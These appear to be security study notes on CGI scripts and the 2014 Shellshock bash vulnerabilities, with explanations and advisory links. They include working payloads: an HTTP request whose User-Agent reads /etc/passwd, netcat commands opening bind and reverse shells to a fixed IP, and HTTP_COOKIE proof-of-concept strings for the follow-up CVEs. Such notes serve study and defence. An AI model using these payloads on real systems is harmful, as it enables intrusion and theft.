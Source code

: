 # CGIs

When you call a CGI, the web server (e.g Apache) starts a new process, typically a bash shell, and runs the CGI script.

Apache needs to pass information to the CGI script. It does so using environment variables, for example every HTTP header (amongst other information) is passed to the CGI. E.g. a HTTP header named HELLO in your request, you will bee available as an environment variable named HTTP_HELLO in the CGI script.

## Shellshock

Bash supports exporting not just shell variables, but also shell functions to other bash instances, via the process environment to (indirect) child processes.   An environment variable starting with `() {` in the variable value, allows on to propagate function
definitions through the environment.  

[CVE-2014-6271 ](https://seclists.org/oss-sec/2014/q3/650) [[patch](http://ftp.gnu.org/gnu/bash/bash-4.3-patches/bash43-027)] aka Shellshock occured because bash did not stop after processing the function definition; it continued to parse and execute shell commands following the function definition.  

For example, an environment variable setting of `VAR=() { ignored; }; /bin/id` will execute `/bin/id` when the environment is imported into the bash process. (The process is in a slightly undefined state at this point. The `PATH` variable may not have been set up yet, and bash could crash after executing `/bin/id`, but the damage has already happened at this point.)

The fact that an environment variable with an arbitrary name can be used as a carrier for a malicious function definition containing trailing commands makes this vulnerability particularly severe; it enables network-based exploitation.  HTTP requests to CGI scripts have been identified as a major attack vector.

For example, you can override existing headers or add new malicious headers as follows.  This version attempts to terminate the HTTP response and write malicious content to it.

```http
GET /cgi-bin/status HTTP/1.1
Host: ptl-6d5e0ee9-04c5fb39.libcurl.so
User-Agent: () {:;}; echo $(cat /etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n"
```

Alternatively, you may want to try to establish a bind or reverse shell, for example with netcat:

```bash
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
```
```bash
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
```

Many similar vulnerabilities in the same subpart of Bash have been found since, due to incomplete/inadequate fixes, including [[ref](https://lcamtuf.blogspot.com/2014/09/bash-bug-apply-unofficial-patch-now.html) and [ref](https://lcamtuf.blogspot.com/2014/10/bash-bug-how-we-finally-cracked.html)]

[CVE-2014-7169](https://www.thegeekstuff.com/2014/09/bash-shellshock-fix-cve-2014-7169/) [[patch](http://ftp.gnu.org/gnu/bash/bash-4.3-patches/bash43-026)] allow a slightly different syntax that still allows this to be exploited.  

You can convince the parser to keep looking for a file name for output redirection `>` past the boundary between the untrusted string accepted from the environment and the actual body of the program that bash is being asked to execute [[ref](https://lcamtuf.blogspot.com/2014/10/bash-bug-how-we-finally-cracked.html)].

NOTE: Untested:

```bash
HTTP_COOKIE='() { (a)=>\' bash -c "echo date"; cat /tmp/echo
```
```bash
HTTP_COOKIE='() { function a a>\' bash -c echo
```

[CVE-2014-7186](https://lcamtuf.blogspot.com/2014/10/bash-bug-how-we-finally-cracked.html) seemed to be a non-exploitable crash, trying to dereference a non-attacker-controlled pointer at an address that "by design" should fall well above the end of heap. 

The test for this problem was pretty simple - you just needed a sequence of here-documents that overflowed a static array, say:

```bash
HTTP_COOKIE='() { 0 <<a <<b <<c <<d <<e <<f <<g <<h <<i <<j <<k <<l <<m; }' bash -c :
```

[CVE-2014-7187](https://lcamtuf.blogspot.com/2014/10/bash-bug-how-we-finally-cracked.html) involved an off-by-one issue with loop parsing. 

The proof-of-concept function definition for this is a trivial `for` loop nested 129 levels deep, but the effect can be only observed under memory access diagnostics tools, and its practical significance is probably low.

[CVE-2014-6277](https://lcamtuf.blogspot.com/2014/10/bash-bug-how-we-finally-cracked.html) proved to be a very straightforward use of uninitialized memory: it hit a code path in `make_redirect()` where one field in a newly-allocated `REDIR` struct - `here_doc_eof` - would not be set to any specific value, yet would be treated as a valid pointer later on (somewhere in `copy_redirect()`).

```bash
HTTP_COOKIE='() { x() { _; }; x() { _; } <<a; }' bash -c :
```

On a good majority of Linux distros, the `--enable-bash-malloc` and `--enable-mem-scramble` flags are disabled, and you can trivially get bash to dereference a pointer that is entirely within attacker's control:

```bash
HTTP_COOKIE="() { x() { _; }; x() { _; } <<`perl -e '{print "A"x1000}'`; }" bash -c :
```

[CVE-2014-6278](https://lcamtuf.blogspot.com/2014/10/bash-bug-how-we-finally-cracked.html) is _magic_?  A sequence of nested $... statements within a redirect appears to cause the parser to bail out without properly resetting its state, and puts it in the mood for executing whatever comes next.


```bash
HTTP_COOKIE='() { _; } >_[$($())] { echo hi mom; id; }' bash -c :
```